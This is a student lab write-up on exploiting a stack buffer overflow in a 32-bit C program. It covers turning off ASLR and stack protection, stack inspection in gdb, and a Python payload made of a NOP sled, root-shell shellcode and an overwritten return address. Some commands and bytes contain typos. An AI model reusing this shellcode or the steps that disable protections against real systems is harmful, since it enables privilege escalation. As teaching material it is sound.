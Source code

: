 #Buffer Overflow

The objective of this project is to learn how to analyze whether a program has a buffer
overflow (BOF) vulnerability, how to exploit BOF and how to defend against BOF.
BOF is an anomaly that violates memory safety. If you give an input that is longer
than expected length, it would be written out of bounds to a block of fixed pre-
allocated memory. This situation leads to data corruption and crash of the program
or executes malicious codes by changing control flow of the program. To exploit buffer overflow properly, we have to install Ubuntu 14.04.03 LTS 32-Bit version OS.

We have to disable address space randomization (ASR). ASR is able to put address space targets in unpredictable locations. If an attacker attempts to exploit an incorret address space location, the target application will crash, stopping the attack and alerting the system. We don't need these kind of things if we want to write Buffer Overflow exploits. 

Disable ASR

```
$ sudo systcl -w kernel .randomize_va_space=0

[sudo] password for : 

```

1. 0 means No randomization. Everything is static.
2. 1 means Conservative randomization. Shared libraries, stack, mmap(), VDSO and heap are randomized.
3. 2 means Full randomization. In addition to elements listed in the previous point, memory managed through brk() is also randomized.

randomize_va_space value will be set to 2 after reboot. We can disable ASR permanently by adding `sudo nano /etc/sysctl.d/01-disable-aslr.conf` containing `kernel.randomize_va_space=0`

The gcc compiler has a protection scheme called "Stack Guard". BOF attacks will not work with this scheme. We have to add `fno-stack-protector` option to our command. 

`$ gcc -fno-stack-protector -z exestack -g -o sample sample.c`

-g - indicates that you can analyze a program with gdb.
-o - name of executable program.

There are security mechanisms against attacks like BOF that use shell programs like /bin/sh linked to /bin/bash. Thus, privileges for shell are dropped and we can not retain the privileges inside the shell. Therefore, we will use another shell, zsh.

```
$ sudo su

[sudo] password for :

apt-get install zsh

cp /bin/sh /bin/sh.bak

ln -s /bin/zsh /bin/sh

```

## Experiment 1

#### Valid Input

![valid-input-1](https://github.com/wlgzaor/Buffer-Overflow/blob/master/valid-input-1.png)

We firstly executed these commands to check stack boundaries:

start
info registers

The important registers for us are $esp (top of the stack) and $ebp (bottom of the stack). These registers can tell us that where the bof function starts and ends.  Our bof function starts at 0bfffee90 and ends 0bfffef18.

Then x/80x $esp command executed to examine 80 hexadecimal words, starting at $esp. 


Bof function starts at 0bfffef90 and ends 0bfffef18.  The first word after $ebp actually is a return address of bof but we are gonna talk about this later. 

We also defined breakpoints at *main+48 (at return instruction of main) and *bof+27 (right after strcpy function). Input were sequence of 's' characters (smaller than 100). 

![valid-input-2](https://github.com/wlgzaor/Buffer-Overflow/blob/master/valid-input-2.png)

Here we can see that 's' (73 in ASCII) characters fill the appropriate field of stack and return address  wasn't overwritten by 's' characters.

```python
#!/usr/bin/python

print  's' * 64
```

![valid-input-3](https://github.com/wlgzaor/Buffer-Overflow/blob/master/valid-input-3.png)

We checked current eip by typing info frame command and there is no changes. Later we will see that how the instruction pointer changes when user enters invalid input.

EIP holds the memory address of next instruction that would be executed.

Info frame command can give us information about stack frames. Now we will try to interpret these     output that you see above. 

###### Stack level 0

Frame number in backtrace, 0 is current executing frame, which grows downwards, in consistence with the stack.

###### Frame at 0bfffef20

Starting memory address of this stack

###### eip = 08048498 in bof (bof.c: 13); saved eip = 080484be 

We said that eip is register for next instruction to execute. So 0*8048498 will be next instruction to execute (line 13 of bof).  

###### saved eip 

080484be is called return address. Pushed into stack upon CALL (save it for return).

###### Arglist at 0bffef18 

The starting address of arguments

###### Locals at 0bfffef18

The starting address of locals 


###### Previous frame's sp is 0bfffef20 

The previous frame's stack pointer point to (the caller frame), at the moment of calling, it also the starting memory address of called stack frame.

###### Saved Registers

* ebp at 0bffef18 address where ebp register of caller's stack frame saved.  (it is the register, not the caller´s stack address). i.e., corresponding to "PUSH %ebp". "ebp" is the register usually considered as the starting address of the locals of this stack frame, which use "offset" to address. 

* eip at 0bfffef1c as mentioned before, but here is the address of the stack (which contains the value "080484be")

#### Invalid Input

![invalid-input-1](https://github.com/wlgzaor/Buffer-Overflow/blob/master/invalid-input-1.png)

Now we see that return address (first word after ebp) overwritten to 0737373 (ebp was 0*bfffef18).

```python
#!/usr/bin/python

print  's' * 116
```

![invalid-input-1](https://github.com/wlgzaor/Buffer-Overflow/blob/master/invalid-input-2.png)

We can check eip register to see changes using info frame. Saved eip updated to 0737373 and there have no instruction like 0737373. So we got segmentation  fault.

#### Open Root Shell

Shellcode must not contain any null bytes (00). They will prevent the buffer from overflowing. Exploit that works in gdb may fail in  a real Linux shell because environment variables may cause the location of the stack to change slightly. Solution for this is a NOP Sled (a long series of “90” bytes) which do nothing. We used 64 byte NOP Sled. 

NOP (64 byte) + shellcode (32 byte) + padding (16 byte) + eip (4 byte)

Return address should hit the NOP's area. So eip will be point one of the starting address of NOP's area and instead of returning back to system, it return to the stack area, start executing the NOPs. Then proceeded to our shell.

```python
#!/usr/bin/python

   nop = '\x90' * 64
   shellcode =     ('\x31\xc0\x89\xc3\xb0\x17\xcd\x80\x31\xd2\x52\x68\x6e\x2f\x73\x68\x68\x2 f\x2f\x62\x69\x89\xe3\x52\x53\x89\xe1\x8d\x42\x0b\xcd\x80')

   padding = 's' * 16
   eip = '\xe0\xee\xff\xbf'  
   print nop + shellcode + padding + eip
```

![shellcode-1](https://github.com/wlgzaor/Buffer-Overflow/blob/master/shellcode-1.png)

Now we see that return address is 0bfffeee0. It'll return back to NOP's area instead of returning main.

![shellcode-2](https://github.com/wlgzaor/Buffer-Overflow/blob/master/shellcode-2.png)

Program opens shell but terminates it immediately. Note that, our program gets input using `gets` built-in function. To run shell please get input from user as a argument.

## Experiment 2

We will analyze stackbof in this experiment.

In main function, a copy function is called and an input, which is given when
the program runs, is passed to the copy function as an argument to copy into a
character array, buf has the length of 10-bytes. Then the input is printed to the
console. If the input is longer than 10 bytes, BOF will occur. We should jump to a hack function instead of the code after the copy function.

